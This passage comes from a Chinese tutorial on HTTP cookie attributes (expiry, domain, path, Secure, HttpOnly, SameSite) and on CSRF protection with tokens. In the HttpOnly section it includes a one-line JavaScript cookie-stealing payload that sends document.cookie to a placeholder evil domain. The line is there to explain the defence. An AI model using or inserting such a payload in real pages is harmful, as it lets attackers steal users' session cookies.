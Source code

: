 `Expires`属性指定一个具体的**到期时间**，到了指定时间以后，浏览器就不再保留这个 Cookie。它的值是 UTC 格式，可以使用`Date.prototype.toUTCString()`进行格式转换。

```js
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT;
// 设置cookie，键id等于值a3fWa, 并设置到期时间
```

如果不设置该属性，或者设为`null`，Cookie 只在当前会话（session）有效，浏览器窗口一旦关闭，当前 Session 结束，该 Cookie 就会被删除。另外，浏览器根据本地时间，决定 Cookie 是否过期，由于本地时间是不精确的，所以没有办法保证 Cookie 一定会在服务器指定的时间过期。

`Max-Age`属性指定**从现在开始 Cookie 存在的秒数**，比如`60 * 60 * 24 * 365`（即一年）。过了这个时间以后，浏览器就不再保留这个 Cookie。

如果同时指定了`Expires`和`Max-Age`，那么`Max-Age`的值将优先生效。

如果`Set-Cookie`字段没有指定`Expires`或`Max-Age`属性，那么这个 Cookie 就是 Session Cookie，即它只在本次对话存在，一旦用户关闭浏览器，浏览器就不会再保留这个 Cookie。

#### 3.2 Domain 域名，Path 路径

`Domain`属性**指定浏览器发出 HTTP 请求时，哪些域名要附带这个 Cookie**。如果没有指定该属性，浏览器会默认将其设为当前域名，这时子域名将不会附带这个 Cookie。比如，`example.com`不设置 Cookie 的`domain`属性，那么`sub.example.com`将不会附带这个 Cookie。**如果指定了`domain`属性，那么子域名也会附带这个 Cookie**。如果服务器指定的域名不属于当前域名，浏览器会拒绝这个 Cookie。

`Path`属性指定浏览器发出 HTTP 请求时，哪些路径要附带这个 Cookie。只要浏览器发现，`Path`属性是 HTTP 请求路径的开头一部分，就会在头信息里面带上这个 Cookie。比如，`PATH`属性是`/`，那么请求`/docs`路径也会包含该 Cookie。当然，前提是域名必须一致。

#### 3.3 Secure 加密协议 https 下有效，HttpOnly 只有 http 请求能拿到

`Secure`属性指定**浏览器只有在加密协议 HTTPS 下，才能将这个 Cookie 发送到服务器**。另一方面，如果当前协议是 HTTP，浏览器会自动忽略服务器发来的`Secure`属性。该属性只是一个开关，**不需要指定值**。如果通信是 HTTPS 协议，该开关自动打开。

`HttpOnly`属性**指定该 Cookie 无法通过 JavaScript 脚本拿到，主要是`document.cookie`属性、`XMLHttpRequest`对象和 Request API 都拿不到该属性**。这样就防止了该 Cookie 被脚本读到，只有浏览器发出 HTTP 请求时，才会带上该 Cookie。

```js
new Image().src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

上面是跨站点载入的一个恶意脚本的代码，能够将当前网页的 Cookie 发往第三方服务器。如果设置了一个 Cookie 的`HttpOnly`属性，上面代码就不会读到该 Cookie。

#### 3.4 SameSite 防止 CSRF 攻击和用户追踪

Chrome 51 开始，浏览器的 Cookie 新增加了一个`SameSite`属性，用来**防止 CSRF 攻击和用户追踪**。

Cookie 往往用来存储用户的身份信息，恶意网站可以设法伪造带有正确 Cookie 的 HTTP 请求，这就是 CSRF 攻击。举例来说，用户登陆了银行网站`your-bank.com`，银行服务器发来了一个 Cookie。

```
Set-Cookie:id=a3fWa;
```

用户后来又访问了恶意网站`malicious.com`，上面有一个表单。

```html
<form action="your-bank.com/transfer" method="POST">...</form>
```

用户一旦被诱骗发送这个表单，银行网站就会收到带有正确 Cookie 的请求。为了防止这种攻击，表单一般都带有一个随机 token，告诉服务器这是真实请求。

```html
<form action="your-bank.com/transfer" method="POST">
	<input type="hidden" name="token" value="dad3weg34" />
	...
</form>
```
